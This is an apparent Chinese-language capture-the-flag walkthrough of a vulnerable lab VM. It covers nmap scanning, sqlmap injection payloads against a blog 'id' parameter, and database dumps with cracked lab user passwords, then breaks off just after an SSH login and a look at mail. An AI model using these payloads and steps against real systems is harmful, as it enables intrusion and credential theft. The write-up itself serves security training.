


## 端口扫描

```bash
┌─[✗]─[fforu@parrot]─[~/workspace]
└──╼ $sudo nmap -sT --min-rate 9999 -p- 10.10.10.18
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 23:05 EST
Nmap scan report for 10.10.10.18
Host is up (0.025s latency).
Not shown: 65506 filtered tcp ports (no-response), 25 filtered tcp ports (host-unreach)
PORT    STATE  SERVICE
22/tcp  open   ssh
25/tcp  open   smtp
80/tcp  open   http
631/tcp closed ipp
MAC Address: 00:0C:29:DB:5C:63 (VMware)

┌─[✗]─[fforu@parrot]─[~/workspace]
└──╼ $sudo nmap -sT -sCV -O -p 22,25,80,631 10.10.10.18
[sudo] fforu 的密码：
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 23:07 EST
Nmap scan report for 10.10.10.18
Host is up (0.00040s latency).

PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 10:4a:18:f8:97:e0:72:27:b5:a4:33:93:3d:aa:9d:ef (DSA)
|_  2048 e7:70:d3:81:00:41:b8:6e:fd:31:ae:0e:00:ea:5c:b4 (RSA)
25/tcp  open   smtp    Sendmail 8.13.5/8.13.5
| smtp-commands: ctf4.sas.upenn.edu Hello [10.10.10.4], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP
|_ 2.0.0 This is sendmail version 8.13.5 2.0.0 Topics: 2.0.0 HELO EHLO MAIL RCPT DATA 2.0.0 RSET NOOP QUIT HELP VRFY 2.0.0 EXPN VERB ETRN DSN AUTH 2.0.0 STARTTLS 2.0.0 For more info use "HELP <topic>". 2.0.0 To report bugs in the implementation send email to 2.0.0 sendmail-bugs@sendmail.org. 2.0.0 For local information send email to Postmaster at your site. 2.0.0 End of HELP info
80/tcp  open   http    Apache httpd 2.2.0 ((Fedora))
| http-robots.txt: 5 disallowed entries 
|_/mail/ /restricted/ /conf/ /sql/ /admin/
|_http-title:  Prof. Ehks 
|_http-server-header: Apache/2.2.0 (Fedora)
631/tcp closed ipp
MAC Address: 00:0C:29:DB:5C:63 (VMware)
Device type: general purpose|remote management|terminal server|switch|proxy server|WAP
Running (JUST GUESSING): Linux 2.6.X|3.X|4.X (96%), Control4 embedded (93%), Lantronix embedded (93%), SNR embedded (93%), SonicWALL embedded (92%), Dell iDRAC 6 (92%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/h:lantronix:slc_8 cpe:/h:snr:snr-s2960 cpe:/o:sonicwall:aventail_ex-6000 cpe:/o:dell:idrac6_firmware cpe:/o:linux:linux_kernel:3.10 cpe:/o:linux:linux_kernel:4.1
Aggressive OS guesses: Linux 2.6.16 - 2.6.21 (96%), Linux 2.6.13 - 2.6.32 (95%), Control4 HC-300 home controller (93%), Lantronix SLC 8 terminal server (Linux 2.6) (93%), SNR SNR-S2960 switch (93%), Linux 2.6.8 - 2.6.30 (92%), SonicWALL Aventail EX-6000 VPN appliance (92%), Linux 2.6.23 (92%), Linux 2.6.9 - 2.6.18 (92%), Dell iDRAC 6 remote access controller (Linux 2.6) (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: Host: ctf4.sas.upenn.edu; OS: Unix

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.24 seconds


┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo nmap -sT --script=vuln -p 22,25,80,631 10.10.10.18
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 23:08 EST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.18
Host is up (0.00082s latency).

PORT    STATE  SERVICE
22/tcp  open   ssh
25/tcp  open   smtp
| smtp-vuln-cve2010-4344: 
|_  The SMTP server is not Exim: NOT VULNERABLE
80/tcp  open   http
|_http-trace: TRACE is enabled
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.18
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://10.10.10.18:80/
|     Form id: 
|     Form action: /index.html?page=search&title=Search Results
|     
|     Path: http://10.10.10.18:80/index.html?page=blog&title=Blog
|     Form id: 
|     Form action: /index.html?page=search&title=Search Results
|     
|     Path: http://10.10.10.18:80/index.html?page=contact&title=Contact
|     Form id: 
|     Form action: /index.html?page=search&title=Search Results
|     
|     Path: http://10.10.10.18:80/index.html?title=Home Page
|     Form id: 
|     Form action: /index.html?page=search&title=Search Results
|     
|     Path: http://10.10.10.18:80/index.html?page=search&title=Search Results
|     Form id: 
|     Form action: /index.html?page=search&title=Search Results
|     
|     Path: http://10.10.10.18:80/index.html?page=research&title=Research
|     Form id: 
|     Form action: /index.html?page=search&title=Search Results
|     
|     Path: http://10.10.10.18:80/?page=blog&title=Blog&id=5
|     Form id: 
|     Form action: /index.html?page=search&title=Search Results
|     
|     Path: http://10.10.10.18:80/?page=blog&title=Blog&id=2
|     Form id: 
|     Form action: /index.html?page=search&title=Search Results
|     
|     Path: http://10.10.10.18:80/?page=blog&title=Blog&id=7
|     Form id: 
|     Form action: /index.html?page=search&title=Search Results
|     
|     Path: http://10.10.10.18:80/?page=blog&title=Blog&id=6
|     Form id: 
|_    Form action: /index.html?page=search&title=Search Results
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-sql-injection: 
|   Possible sqli for queries:
|     http://10.10.10.18:80/?title=Blog&page=blog&id=5%27%20OR%20sqlspider
|     http://10.10.10.18:80/?title=Blog&page=blog&id=2%27%20OR%20sqlspider
|     http://10.10.10.18:80/?title=Blog&page=blog&id=7%27%20OR%20sqlspider
|_    http://10.10.10.18:80/?title=Blog&page=blog&id=6%27%20OR%20sqlspider
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.php: Possible admin folder
|   /admin/login.php: Possible admin folder
|   /admin/admin.php: Possible admin folder
|   /robots.txt: Robots file
|   /icons/: Potentially interesting directory w/ listing on 'apache/2.2.0 (fedora)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.2.0 (fedora)'
|   /inc/: Potentially interesting directory w/ listing on 'apache/2.2.0 (fedora)'
|   /pages/: Potentially interesting directory w/ listing on 'apache/2.2.0 (fedora)'
|   /restricted/: Potentially interesting folder (401 Authorization Required)
|   /sql/: Potentially interesting directory w/ listing on 'apache/2.2.0 (fedora)'
|_  /usage/: Potentially interesting folder
631/tcp closed ipp
MAC Address: 00:0C:29:DB:5C:63 (VMware)
```

## sql注入

sqlmap跑一下
发现了sql注入
```bash
sudo sqlmap -u "http://10.10.10.18/?title=Blog&page=blog&id=1*" --batch --dbs

sqlmap identified the following injection point(s) with a total of 68 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: http://10.10.10.18:80/?title=Blog&page=blog&id=(SELECT (CASE WHEN (8761=8761) THEN 1 ELSE (SELECT 3232 UNION SELECT 9450) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://10.10.10.18:80/?title=Blog&page=blog&id=1 AND (SELECT 1045 FROM (SELECT(SLEEP(5)))jtCH)

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: http://10.10.10.18:80/?title=Blog&page=blog&id=1 UNION ALL SELECT NULL,CONCAT(0x7170717171,0x44534956764c4c6a4a4e4a5171574c755a5552676e6c6552716e4d7a6778496a714376656e775856,0x7171707171),NULL,NULL,NULL-- -
---
[23:16:41] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 5 (Bordeaux)
web application technology: Apache 2.2.0, PHP 5.1.2
back-end DBMS: MySQL >= 5.0.12
[23:16:41] [INFO] fetching database names
available databases [6]:
[*] calendar
[*] ehks
[*] information_schema
[*] mysql
[*] roundcubemail
[*] test
```

库有点多，看到之前暴露出来的sql目录信息


找到这三个表
```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo sqlmap -u "http://10.10.10.18/?title=Blog&page=blog&id=1*" --batch -D ehks --tables
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.2#stable}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:20:12 /2024-03-04/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[23:20:13] [INFO] resuming back-end DBMS 'mysql' 
[23:20:13] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: http://10.10.10.18:80/?title=Blog&page=blog&id=(SELECT (CASE WHEN (8761=8761) THEN 1 ELSE (SELECT 3232 UNION SELECT 9450) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://10.10.10.18:80/?title=Blog&page=blog&id=1 AND (SELECT 1045 FROM (SELECT(SLEEP(5)))jtCH)

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: http://10.10.10.18:80/?title=Blog&page=blog&id=1 UNION ALL SELECT NULL,CONCAT(0x7170717171,0x44534956764c4c6a4a4e4a5171574c755a5552676e6c6552716e4d7a6778496a714376656e775856,0x7171707171),NULL,NULL,NULL-- -
---
[23:20:13] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 5 (Bordeaux)
web application technology: PHP 5.1.2, Apache 2.2.0
back-end DBMS: MySQL >= 5.0.12
[23:20:13] [INFO] fetching tables for database: 'ehks'
Database: ehks
[3 tables]
+---------+
| user    |
| blog    |
| comment |
+---------+
```

```bash
┌─[fforu@parrot]─[/usr/share/sqlmap]
└──╼ $python /usr/share/sqlmap/sqlmap.py -u "http://10.10.10.18/?title=Blog&page=blog&id=1*" --batch -D ehks --dump-all
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.3.13#dev}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:35:04 /2024-03-04/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[23:35:05] [INFO] resuming back-end DBMS 'mysql' 
[23:35:05] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: http://10.10.10.18/?title=Blog&page=blog&id=(SELECT (CASE WHEN (1043=1043) THEN 1 ELSE (SELECT 8651 UNION SELECT 9599) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://10.10.10.18/?title=Blog&page=blog&id=1 AND (SELECT 7996 FROM (SELECT(SLEEP(5)))tXvM)

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: http://10.10.10.18/?title=Blog&page=blog&id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x716b787a71,0x537576425a717378714f515944684c616f73786b597a57535348446c6e6d4954736f7a4346506844,0x717a6a6271)-- -
---
[23:35:05] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 5 (Bordeaux)
web application technology: Apache 2.2.0, PHP 5.1.2
back-end DBMS: MySQL >= 5.0.12
[23:35:05] [INFO] fetching tables for database: 'ehks'
[23:35:05] [INFO] fetching columns for table 'blog' in database 'ehks'
[23:35:05] [INFO] fetching entries for table 'blog' in database 'ehks'
Database: ehks
Table: blog
[4 entries]
+---------+---------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+----------------------------------------------+
| blog_id | user_id | blog_body                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        | blog_date           | blog_title                                   |
+---------+---------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+----------------------------------------------+
| 2       | 4       | Etiam auctor, massa quis viverra vulputate, dolor felis consectetur lectus, at ultrices tortor mauris consequat justo. Duis hendrerit magna in justo. Sed a massa. Sed fermentum. Nunc lacus sem, eleifend non, hendrerit nec, sollicitudin in, odio. Nulla facilisi. Cras mi nibh, egestas ut, tincidunt id, sagittis a, enim. Maecenas non ligula vitae nibh faucibus laoreet. Praesent ipsum lectus, congue eget, tempus vel, dictum at, nisl. Ut tristique enim in justo. Aliquam at sapien. Aliquam erat volutpat. In gravida magna. Pellentesque orci nunc, sodales eu, luctus eget, porta nec, libero. Class aptent taciti sociosqu ad litora torquent per conubia nostra, per inceptos himenaeos. Nulla facilisi. Quisque a nisl sit amet risus fringilla commodo. Aenean tellus. Praesent luctus diam quis mi.\r\n\r\nMaecenas vel justo sed augue gravida sagittis. Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus. Proin non est. Integer pharetra placerat est. Ut aliquam lectus quis metus. Donec sollicitudin ligula ut sem. Integer dui tellus, pellentesque in, molestie ut, rhoncus nec, odio. Nullam a diam. Proin laoreet libero sed ipsum. Aliquam lectus. Sed venenatis enim in libero. Sed vel libero sit amet sapien placerat rutrum. Nam porta mauris quis mauris. Donec rutrum quam a magna. In non ante. Integer placerat. Praesent aliquet, velit ac feugiat fermentum, diam neque aliquet diam, nec pellentesque turpis nisi eu quam. Aenean suscipit magna non felis commodo malesuada. Praesent dictum pretium velit. Donec ante ipsum, semper ut, ultrices at, fringilla nec, magna.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       | 2009-03-09 09:53:15 | Praesent aliquet, velit ac feugiat fermentum |
| 5       | 4       | Curabitur neque. Aenean laoreet. Vestibulum mollis ligula ut quam. Class aptent taciti sociosqu ad litora torquent per conubia nostra, per inceptos himenaeos. Cras ut lacus. Sed mauris lectus, adipiscing vel, semper ut, dignissim id, ipsum. Nunc semper, libero sit amet sodales dictum, massa metus dapibus neque, eu placerat erat lacus in augue. Maecenas dignissim molestie quam. Nunc ut nulla. Curabitur ullamcorper gravida tortor.\r\n\r\nIn tellus neque, semper eget, eleifend sit amet, aliquam vel, mi. Maecenas rhoncus eros ut risus. Maecenas hendrerit massa sed nisl. Sed placerat, neque quis aliquet condimentum, neque nibh luctus justo, vitae congue sem mi in dui. Cras porttitor. Nullam eu ante id augue aliquet dictum. Suspendisse non magna fermentum sapien mollis mollis. Morbi facilisis, turpis non blandit lobortis, est nunc condimentum lorem, et vulputate felis velit sit amet sapien. Vestibulum in metus. Vivamus rhoncus purus nec lacus. Curabitur sem dui, ullamcorper quis, varius non, blandit id, mi. Pellentesque rutrum. Donec massa augue, tincidunt eget, interdum nec, luctus non, risus. Sed in dolor in velit viverra gravida.\r\n\r\nEtiam facilisis mollis tortor. Sed id arcu. Nullam ornare pellentesque odio. Integer orci orci, viverra et, tincidunt eu, semper vitae, velit. Morbi tristique pharetra justo. Vestibulum eu mi in nunc euismod pellentesque. Morbi ligula augue, malesuada quis, consectetur non, pharetra non, dui. Vestibulum suscipit nibh vel dui. Nullam tempus odio vitae tortor gravida feugiat. In non libero sed est blandit malesuada. Proin a nibh. Integer tempor, nisl vel laoreet consectetur, leo nisl auctor leo, id feugiat massa mauris eget neque.\r\n\r\nInteger enim purus, auctor non, convallis in, viverra ut, arcu. Sed ut metus viverra est molestie tempus. Quisque nunc eros, eleifend id, commodo et, ultrices congue, ante. Sed auctor sapien eget diam. Vestibulum ante ipsum primis in faucibus orci luctus et ultrices posuere cubilia Curae; Fusce ut risus. Pellentesque sit amet ligula nec nisi blandit ultrices. Aenean sem sapien, tempor ac, molestie ut, mattis eu, magna. Vivamus velit. In non lorem. Curabitur eget magna at quam iaculis porttitor. Ut sed velit. Quisque luctus justo eu lectus. Duis sit amet erat a tortor tincidunt pulvinar.  | 2009-03-09 10:04:45 | Vivamus Velit                                |
| 6       | 4       | Suspendisse eget nisl. Nulla facilisi. Aenean turpis sapien, euismod in, molestie in, suscipit eget, diam. Suspendisse lorem elit, bibendum vel, imperdiet quis, facilisis vel, lectus. Maecenas convallis. Maecenas lacinia ligula eget libero. Fusce neque nibh, ornare sodales, porttitor ut, blandit nec, risus. Quisque neque sapien, ultrices ac, elementum ut, dignissim eget, nunc. Nunc nulla purus, fringilla ac, placerat eget, commodo ac, tellus. Ut velit. Morbi eget sem quis neque fringilla cursus. Morbi sit amet magna in lorem mollis porta. Ut euismod. Nam sapien nunc, blandit id, vestibulum ac, tempus quis, metus. Aliquam non enim. Cras feugiat nunc et turpis. Aenean dignissim mauris eget ante. Nulla felis. Cras vestibulum, magna nec porttitor porttitor, tortor mi congue nibh, eget porttitor neque lectus quis ligula.\r\n\r\nSuspendisse potenti. Mauris at nisi ac sem consequat laoreet. Class aptent taciti sociosqu ad litora torquent per conubia nostra, per inceptos himenaeos. Sed mi sem, tempus ut, consequat fringilla, ornare eu, nulla. Vestibulum quis erat in metus rutrum placerat. Maecenas accumsan imperdiet ante. Curabitur consequat lorem suscipit leo. Aliquam erat volutpat. Class aptent taciti sociosqu ad litora torquent per conubia nostra, per inceptos himenaeos. Morbi placerat nibh sit amet nibh. Maecenas ultricies, nibh accumsan aliquam volutpat, orci velit varius nunc, ac ultricies ligula dui et lectus. Sed tempus consequat quam. Aenean convallis sapien in sem.\r\n\r\nNulla purus. Aenean enim. Vivamus mattis pellentesque velit. Aenean est nibh, aliquet id, scelerisque ac, rutrum quis, lorem. Integer tincidunt risus a mauris. In hac habitasse platea dictumst. Ut et arcu. Phasellus leo justo, sagittis nec, ullamcorper a, porta id, dui. Aliquam at magna. Pellentesque justo. Nullam facilisis. Class aptent taciti sociosqu ad litora torquent per conubia nostra, per inceptos himenaeos. Mauris ultrices elit non leo. Donec nunc dui, posuere quis, dignissim quis, tincidunt vitae, lacus.                                                                                                                                                                                                                                                                                | 2009-03-09 10:05:05 | Aliquam Erat Volutpat                        |
| 7       | 5       | Vestibulum convallis. Quisque aliquet, sem eu tempor vehicula, augue mi semper tortor, ut rutrum metus mi et felis. Vestibulum consequat, augue sed ultrices rutrum, neque velit luctus arcu, vel condimentum sapien turpis at eros. Duis at orci vel est aliquet consequat. Fusce vitae lorem. Pellentesque non urna tincidunt libero tempus hendrerit. Donec consequat quam ac velit. Sed quis ante. Sed iaculis metus ac eros pharetra venenatis. Sed nec dolor. Ut tristique.\r\n\r\nSed quis lectus. Maecenas lacinia nisl eu sem. Curabitur id ante non orci tincidunt malesuada. Phasellus et urna. Nunc id nibh at tellus consequat accumsan. Aenean massa. Donec non est. Nunc leo. Vestibulum vulputate magna in diam. Duis vulputate elit dictum dolor. Sed purus nulla, condimentum et, posuere id, ultricies eget, risus. Aliquam erat volutpat. In blandit orci imperdiet ligula. Ut ut velit. Nullam tincidunt. Nunc aliquet tempus lorem.\r\n\r\nNam velit. In augue nibh, mollis sit amet, aliquet dapibus, lobortis eget, leo. Nullam risus augue, iaculis a, ullamcorper vitae, suscipit gravida, lorem. Pellentesque habitant morbi tristique senectus et netus et malesuada fames ac turpis egestas. Nunc lacinia tellus nec orci. Proin purus. Duis suscipit. Nullam eu dui. Suspendisse rutrum mollis arcu. Pellentesque nisi. Integer arcu ipsum, venenatis eget, scelerisque sed, adipiscing eget, diam. Vivamus tristique metus vel erat. Nulla iaculis. Ut ut neque vel odio consequat gravida. Suspendisse potenti.\r\n\r\nSed at ipsum ut lectus bibendum hendrerit. Etiam dignissim dui eu lectus. Etiam tristique enim et massa. Nunc tempor pellentesque sem. Aenean egestas metus in dolor. Phasellus auctor metus non dui. Phasellus eu mi. Suspendisse sed nibh. Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus. Maecenas diam dolor, posuere porttitor, lobortis a, dignissim ut, ante. Etiam placerat. Proin id justo vel elit aliquam laoreet. Praesent sapien urna, lacinia id, dictum vel, ornare sit amet, lorem. In ac urna. Sed congue nisl ut ipsum. Donec vitae tortor. Nulla facilisi. Suspendisse id lacus. Sed consequat lacinia nisi.                                                                                                                                                     | 2009-03-09 10:06:26 | Justo Vel Elit Aliquam                       |
+---------+---------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+----------------------------------------------+

[23:35:05] [INFO] table 'ehks.blog' dumped to CSV file '/home/fforu/.local/share/sqlmap/output/10.10.10.18/dump/ehks/blog.csv'
[23:35:05] [INFO] fetching columns for table 'user' in database 'ehks'
[23:35:05] [INFO] fetching entries for table 'user' in database 'ehks'
[23:35:05] [INFO] recognized possible password hashes in column 'user_pass'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[23:35:05] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[23:35:05] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[23:35:05] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[23:35:05] [INFO] starting 4 processes 
[23:35:07] [INFO] cracked password 'Homesite' for user 'pmoore'                                                                                                                           
[23:35:08] [INFO] cracked password 'Sue1978' for user 'jdurbin'                                                                                                                           
[23:35:10] [INFO] cracked password 'ilike2surf' for user 'dstevens'                                                                                                                       
[23:35:13] [INFO] cracked password 'pacman' for user 'sorzek'                                                                                                                             
[23:35:13] [INFO] cracked password 'seventysixers' for user 'achen'                                                                                                                       
[23:35:22] [INFO] cracked password 'undone1' for user 'ghighland'                                                                                                                         
Database: ehks                                                                                                                                                                            
Table: user
[6 entries]
+---------+-----------+--------------------------------------------------+
| user_id | user_name | user_pass                                        |
+---------+-----------+--------------------------------------------------+
| 1       | dstevens  | 02e823a15a392b5aa4ff4ccb9060fa68 (ilike2surf)    |
| 2       | achen     | b46265f1e7faa3beab09db5c28739380 (seventysixers) |
| 3       | pmoore    | 8f4743c04ed8e5f39166a81f26319bb5 (Homesite)      |
| 4       | jdurbin   | 7c7bc9f465d86b8164686ebb5151a717 (Sue1978)       |
| 5       | sorzek    | 64d1f88b9b276aece4b0edcc25b7a434 (pacman)        |
| 6       | ghighland | 9f3eb3087298ff21843cc4e013cf355f (undone1)       |
+---------+-----------+--------------------------------------------------+

[23:35:24] [INFO] table 'ehks.`user`' dumped to CSV file '/home/fforu/.local/share/sqlmap/output/10.10.10.18/dump/ehks/user.csv'
[23:35:24] [INFO] fetching columns for table 'comment' in database 'ehks'
[23:35:24] [INFO] fetching entries for table 'comment' in database 'ehks'
[23:35:24] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[23:35:24] [INFO] fetching number of entries for table 'comment' in database 'ehks'
[23:35:24] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[23:35:24] [INFO] retrieved: 0
[23:35:24] [WARNING] table 'comment' in database 'ehks' appears to be empty
Database: ehks
Table: comment
[0 entries]
+------------+-------------+--------------+--------------+---------------+----------------+
| comment_id | comment_url | comment_body | comment_date | comment_title | comment_author |
+------------+-------------+--------------+--------------+---------------+----------------+
+------------+-------------+--------------+--------------+---------------+----------------+

[23:35:24] [INFO] table 'ehks.`comment`' dumped to CSV file '/home/fforu/.local/share/sqlmap/output/10.10.10.18/dump/ehks/comment.csv'
[23:35:24] [INFO] fetched data logged to text files under '/home/fforu/.local/share/sqlmap/output/10.10.10.18'

[*] ending @ 23:35:24 /2024-03-04/
```

收集到用户信息
尝试ssh爆破

## 第一个立足点，ssh

使用hydra爆破失败了
手动ssh登录
```bash
┌─[✗]─[fforu@parrot]─[~/workspace]
└──╼ $sudo ssh -oHostKeyAlgorithms=+ssh-dss -oKexAlgorithms=+diffie-hellman-group1-sha1 dstevens@10.10.10.18
BSD SSH 4.1
dstevens@10.10.10.18's password: 
Permission denied, please try again.
dstevens@10.10.10.18's password: 
Last login: Wed Mar 11 09:45:34 2009
[dstevens@ctf4 ~]$ whoami
dstevens
[dstevens@ctf4 ~]$ ls
Desktop  html  install.log  mail  software
[dstevens@ctf4 ~]$ pwd
/home/dstevens
[dstevens@ctf4 ~]$ ls ../
achen  dstevens  ghighland  jdurbin  pmoore  sorzek
[dstevens@ctf4 ~]$ 
```
得到第一个ssh
查看你敏感信息
```bash
[dstevens@ctf4 ~]$ cd mail
[dstevens@ctf4 mail]$ ls -lain
total 48
296583 drwx------  3 500 506 4096 2009-03-09 .
296449 drwxr-xr-x 14 500 100 4096 2009-03-11 ..
296589 drwx------  5 500 506 4096 2009-03-09 .imap
296587 -rw-------  1 500 506    0 2009-03-09 INBOX.Drafts
